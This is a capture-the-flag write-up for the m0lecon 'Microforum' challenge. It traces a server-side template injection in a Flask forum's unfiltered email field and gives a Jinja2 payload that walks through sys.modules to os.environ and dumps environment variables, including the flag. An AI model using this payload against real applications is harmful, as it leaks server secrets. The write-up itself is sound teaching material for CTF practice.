 # Microforum
## Challenge
You're telling me you can't break such a simple [forum](https://microforum.m0lecon.fans/)?

The forum is broken down to 2 things
1. posts
2. profile

## Enumeration 

after looking around in source and testing different places for vulnerabilities we found out that posts aren't vulnerable, but the profile page is.

when looking around in the source code we found these forms

```python
class RegistrationForm(FlaskForm):

	username = StringField('Username', validators=[DataRequired()])

	email = StringField('Email', validators=[DataRequired(), Email()])

	password = PasswordField('Password', validators=[DataRequired()])

	password2 = PasswordField('Repeat Password', validators=[DataRequired(), 
	EqualTo('password')])

	submit = SubmitField('Register')

  

	def validate_username(self, username):

		for c in "}{":

			if c in username.data:

				raise ValidationError('Please use valid characters.')

			user = User.query.filter_by(username=username.data).first()

			if user is not None:

				 raise ValidationError('Please use a different username.')

  

	def validate_email(self, email):

		user = User.query.filter_by(email=email.data).first()

		if user is not None:

			raise ValidationError('Please use a different email address.')

  
  

class EditProfileForm(FlaskForm):

	username = StringField('Username', validators=[DataRequired()])

	about_me = TextAreaField('About me', validators=[Length(min=0, max=1000)])

	submit = SubmitField('Submit')

  

	def __init__(self, original_username, *args, **kwargs):

		super(EditProfileForm, self).__init__(*args, **kwargs)

		self.original_username = original_username

  

	def validate_username(self, username):

		for c in "}{":

			if c in username.data:

				abort(400)

				#raise ValidationError('Please use valid characters.')

		if username.data != self.original_username:

			user = User.query.filter_by(username=self.username.data).first()

			if user is not None:

				abort(409)

				#raise ValidationError('Please use a different username.')

  

	def validate_about_me(self, about_me):

		for c in "}{":

			if c in about_me.data:

				abort(400)

```

We can see that the forms are checking for brackets in username and about me, but never in the email, that means the email might be vulnerable for some SSTI (server side template injection)

When checking for a SSTI we do something like this `{{1+1}}` to see how the server handles that request, and when implementing it to the users email it will look something like this

![test of SSTI](https://github.com/KyootyBella/m0lecon22/blob/main/testofssti.png)

When logging in and checking if it works on our profile we find this

![Results](https://github.com/KyootyBella/m0lecon22/blob/main/resultsoftest.png)

Okay, so now we know that there is SSTI on this page, but how do we get flag?

## Exploit

We can see in the source again that in the dockerfile we have declared flag as an environment variable, but isn't called anywhere else

```Dockerfile
# syntax=docker/dockerfile:1

FROM python:latest

ENV FLASK_APP=main.py

COPY --chown=root:root . ./microforum

WORKDIR ./microforum

RUN useradd -ms /bin/bash app

RUN chown -R app db/

RUN pip3 install -r requirements.txt

EXPOSE 8080

USER app

ENV FLAG='ptm{REDACTED}'

CMD ["python", "main.py", "--host=0.0.0.0"]
```

The docker is running python which means we can do some code execution through this SSTI, by using the classic `self.__init__.__globals__` path in our SSTI we can find all global variables, and we can see that `sys` is a variable that we have access too.

Through sys we can access variables and load `modules` which with lists us all modules that has been imported and can find the OS module, from there we can load the environmental variables via `os.environ` 

Making our exploit look like this
```
{{self.__init__.__globals__.sys.modules.os.environ}}
```

with this we can put it into our email field and exploit the website giving us this output

![result of payload](https://github.com/KyootyBella/m0lecon22/blob/main/resultsofexploit.png)

## Flag
ptm{d1d_u_f1nd_th3_r1ckr0ll?}
